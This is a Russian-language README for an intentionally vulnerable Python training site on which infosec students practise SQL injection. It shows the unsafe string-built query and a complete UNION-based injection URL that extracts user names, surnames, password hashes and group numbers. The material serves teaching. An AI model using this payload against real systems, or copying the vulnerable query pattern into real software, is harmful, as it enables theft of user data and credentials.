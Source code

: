 # Тестовая площадка для изучения студентами SQL инъекций

Намеренно сделана из говна и палок с нарушениями всех возможных паттернов программирования, т.к., как ясно из названия, она должна легко взламываться студентами на курсе по инфобезу. Кроме того, всё, что здесь используется, есть в стандартной библиотеке Python.

Взломать эту штуку можно, вставив инъекцию на место имени пользователя при просмотре чужого профиля, т.к. страница пользователя работает так же, как список всех пользователей — в цикле выводит все результаты запроса из БД, с той лишь разницей, что запрос фильтруется по никнейму пользователя, переданному в адресной строке.

Запрос к БД на сервере:

```sql
SELECT nickname, status FROM users WHERE nickname = '{nickname}'
```

Инъекция в URL адресе:

http://{hostname}/users/' OR 1=1 UNION SELECT nickname, name from users UNION SELECT nickname, surname from users UNION SELECT nickname, pwd_hash from users UNION SELECT nickname, group_num from users--

Так выглядит запрос с SQL инъекцией:

```sql
SELECT nickname, status FROM users WHERE nickname = '' OR 1=1 UNION SELECT nickname, name from users UNION SELECT nickname, surname from users UNION SELECT nickname, pwd_hash from users UNION SELECT nickname, group_num from users--'
```
